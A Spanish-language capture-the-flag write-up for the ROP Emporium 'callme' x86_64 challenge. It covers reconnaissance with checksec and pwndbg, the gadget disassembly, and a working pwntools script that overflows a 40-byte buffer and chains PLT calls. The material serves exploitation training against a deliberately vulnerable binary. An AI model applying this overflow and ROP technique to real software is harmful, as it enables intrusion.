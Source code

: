 ```yaml
---
title: callme
date: 2024-08-12
platform: ROP Emporium
author: naibu3
---
```

#writeup 
# x86_64 (Intended)
## Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

Vemos que la ejecución es igual que el [[split|ejercicio anterior]].

Así que analizaremos las funciones con [[gdb]]-[[pwndbg]]:

```gdb
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
```

En el enunciado se nos dice:

```markdown
You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_` functions in the above order and with the correct arguments. If you're taking on the MIPS version of this challenge, don't forget about the branch delay slot.

_Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order._
```

Por lo tanto, debemos llamar a las funciones *callme_* en el orden correcto, pasando los argumentos correctos.

En *usefulGadgets* se nos dan los gadgets necesarios para colocar los argumentos:

```asm
disass usefulGadgets

Dump of assembler code for function usefulGadgets:
0x000000000040093c <+0>:	pop    rdi
0x000000000040093d <+1>:	pop    rsi
0x000000000040093e <+2>:	pop    rdx
0x000000000040093f <+3>:	ret
```

También tenemos las direcciones de las funciones a llamar que tienen la peculiaridad de, al ser *dynamically linked*, encontrarse en la [[PLT]].
## Explotación

El script llamará por cada función, a los gadgets, seguidos de los parámetros y por último, a la propia función. Así quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.bits=64
exe = './callme'


def start():
    
    if args.REMOTE:
        return remote()
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding=40*b'A' #Same as split (previous challenge)

callme_1=p64(0x0000000000400720)
callme_2=p64(0x0000000000400740)
callme_3=p64(0x00000000004006f0)

pop_3_ret=p64(0x000000000040093c)

deadbeef=p64(0xdeadbeefdeadbeef)
cafebabe=p64(0xcafebabecafebabe)
doodfood=p64(0xd00df00dd00df00d)

args = deadbeef + cafebabe + doodfood

payload = padding + pop_3_ret + args + callme_1
payload += pop_3_ret + args + callme_2
payload += pop_3_ret + args + callme_3

io.sendline(payload)
io.interactive()
```